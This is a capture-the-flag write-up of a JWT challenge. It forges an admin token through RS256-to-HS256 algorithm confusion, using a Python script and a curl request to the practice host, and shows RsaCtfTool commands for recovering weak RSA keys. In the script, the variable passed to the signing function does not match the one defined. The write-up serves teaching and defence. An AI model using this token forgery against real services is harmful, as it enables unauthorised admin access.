 # JWT Challenge

We have learnt about JWT, but what about the attack of it?

## Can you compromise this?

{% file src="../../.gitbook/assets/web4_so_dizzy.zip" %}

If CDDC practice machine is still up, here is the initial site: http://47.128.156.184:10008/&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20240506225257.png" alt=""><figcaption></figcaption></figure>

There are 2 options, to check in via admin or guest, when we click on either, we see this:&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20240506225244.png" alt=""><figcaption><p>A hint at the site you need to visit for token</p></figcaption></figure>

So visiting http://47.128.156.184:10008/getcookie will supply the user with a cookie:&#x20;

Guest Token:

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.ATWEP-3TalFgZ0NavDYr8h7at_9n-jxo9nVNuLvMdIx5xKeTTvrAd9Z22vGh87MFXy5vBFfBG4h6b7_ef9yqzJpBy-mdFGNXkg8TbywVJ_bJDzNFcSfv02Sxya9L9Z_1LwACyKpZFVsFuqmltgImmMb07I0j1_J4NpwcnYDlbSev6nhLJ8prsXiIScXLLr4GRniIgkR8AwnI1pAbqb0RqxsC-cNTBbPrV7zcd3dg3X1ASbBdKLh-uCJhDAFUsEWd2eD5wm4EGCalocZLercz_sDGMF9MCUKKt2tlPnh5snCMd3VIYIsKIKaaxwqh2nTgjYQT2Qyt5UFmHKIvqWcr5g
```

Translates to:

```
Headers = {
  "alg": "RS256",
  "typ": "JWT"
}

Payload = {
  "user": "guest"
}

Signature = "ATWEP-3TalFgZ0NavDYr8h7at_9n-jxo9nVNuLvMdIx5xKeTTvrAd9Z22vGh87MFXy5vBFfBG4h6b7_ef9yqzJpBy-mdFGNXkg8TbywVJ_bJDzNFcSfv02Sxya9L9Z_1LwACyKpZFVsFuqmltgImmMb07I0j1_J4NpwcnYDlbSev6nhLJ8prsXiIScXLLr4GRniIgkR8AwnI1pAbqb0RqxsC-cNTBbPrV7zcd3dg3X1ASbBdKLh-uCJhDAFUsEWd2eD5wm4EGCalocZLercz_sDGMF9MCUKKt2tlPnh5snCMd3VIYIsKIKaaxwqh2nTgjYQT2Qyt5UFmHKIvqWcr5g"
```

We see the algo used was "RS256" which is RSA with SHA256, means the key is asymmetric.

We have a public key from http://47.128.156.184:10008/api/jwt

```
{"public_key":"-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAiErXyh99IXoui0ua+QeP\nESzg3AhM4euZ1+/WCOHTsyeiY65veUrFUENBAUk8xVkv8dDqabPD9YybWCDE75Fn\nZyKtVOUOtfAJNGRbcUApQgMdbh3gnNeC9wELbw2AjN/wQMuKpbWBdXq7KZ6Fe3FG\ncd+65CVNcKKIam3Y7S6vDnq5TBgDGc/D1nQnOIdh9D7Z7ndGzqPSen3HoMhiKZlw\n27Vguq7n0c7JRqzazy+hLWigCd8cUpiu+1ZadnqGWtOD3ts+pbWrc5Q0mPpmEXST\nKU8CtSSzNPTMhZrt9mCo/UyX8p3wz+M4t+qVMuHmqbA7TGzGiToXyYBXuUrbj+3v\nLQIDAQAB\n-----END PUBLIC KEY-----"}
```

Public key:

```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAiErXyh99IXoui0ua+QeP
ESzg3AhM4euZ1+/WCOHTsyeiY65veUrFUENBAUk8xVkv8dDqabPD9YybWCDE75Fn
ZyKtVOUOtfAJNGRbcUApQgMdbh3gnNeC9wELbw2AjN/wQMuKpbWBdXq7KZ6Fe3FG
cd+65CVNcKKIam3Y7S6vDnq5TBgDGc/D1nQnOIdh9D7Z7ndGzqPSen3HoMhiKZlw
27Vguq7n0c7JRqzazy+hLWigCd8cUpiu+1ZadnqGWtOD3ts+pbWrc5Q0mPpmEXST
KU8CtSSzNPTMhZrt9mCo/UyX8p3wz+M4t+qVMuHmqbA7TGzGiToXyYBXuUrbj+3v
LQIDAQAB
-----END PUBLIC KEY-----
```

Checking the source code they provided, this is how the server side validates token, so do you see what is wrong with it?&#x20;

There is no validation!

If anything is modified on the algo section of the Headers, the `jwt.decode` will process it using that algorithm, this vulnerability is important to note since we can technically just modify this field in the JWT using HMAC, resign the token with the public key, send it over, the server uses the public key to decrypt the signature, and see our information sent anyways.

### For more information along with mitigation:&#x20;

{% embed url="https://docs.authlib.org/en/latest/jose/jwt.html" %}

We also need to modify the user from user to admin, we can achieve this using simple python code as follows:

```python
from authlib.jose import jwt

# Your public key
public_key = "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAiErXyh99IXoui0ua+QeP\nESzg3AhM4euZ1+/WCOHTsyeiY65veUrFUENBAUk8xVkv8dDqabPD9YybWCDE75Fn\nZyKtVOUOtfAJNGRbcUApQgMdbh3gnNeC9wELbw2AjN/wQMuKpbWBdXq7KZ6Fe3FG\ncd+65CVNcKKIam3Y7S6vDnq5TBgDGc/D1nQnOIdh9D7Z7ndGzqPSen3HoMhiKZlw\n27Vguq7n0c7JRqzazy+hLWigCd8cUpiu+1ZadnqGWtOD3ts+pbWrc5Q0mPpmEXST\nKU8CtSSzNPTMhZrt9mCo/UyX8p3wz+M4t+qVMuHmqbA7TGzGiToXyYBXuUrbj+3v\nLQIDAQAB\n-----END PUBLIC KEY-----"

def gentoken(key):
    header = {"alg": "HS256"}
    payload = {"user": "admin"}
    token = jwt.encode(header, payload, key)
    return token

token = gentoken(public_key_pseudo)
print(token)
```

The output will be this token:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.IX3MZqrvRdDMW00Il83c8KXuPRiXQ7rX5sq9-CqSWAY
```

Check with JWT burp extension to see if the signature is verified:&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20240506212518.png" alt=""><figcaption><p>Using JSON web Tokens extension of Burpsuite, we can verify our token is working</p></figcaption></figure>

Extension:

{% embed url="https://github.com/portswigger/json-web-tokens" %}

Since it is verified, there should be no issue on the server side, we can curl it to see our flag:

```bash
curl --cookie "session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.IX3MZqrvRdDMW00Il83c8KXuPRiXQ7rX5sq9-CqSWAY" http://47.128.156.184:10008/post/1
```

And bypassed!

&#x20;![](<../../.gitbook/assets/Pasted image 20240506212454 - Copy (1).png>)

## HMAC Attack

If the situation was different, and the token was just using HMAC from the start, getting a hold of the symmetric key would mean game over for the server, since we would already be able to resign the JWT and send it to the server.

## Small key RSA SHA256

If the public key was not as big as the current, the private key could possibly be recovered using the RsaCtfTool

We try to get the private key from the public key

```bash
git clone https://github.com/RsaCtfTool/RsaCtfTool.git
cd RsaCtfTool 
pip3 install -r requirements.txt

python3 RsaCtfTool.py --publickey ../public.pem --private
```

If it is recoverable, the private key will show:&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20240506235237.png" alt=""><figcaption><p>Source: https://ctftime.org/writeup/30541</p></figcaption></figure>

Which you can use to resign the token after modification.

### Conclusion

It is important to use validation for all your methods with regards to authentication, and use of strong keys are recommended, and do not expose your keys easily.

#### Author: [`Ninjarku`](https://github.com/Ninjarku)

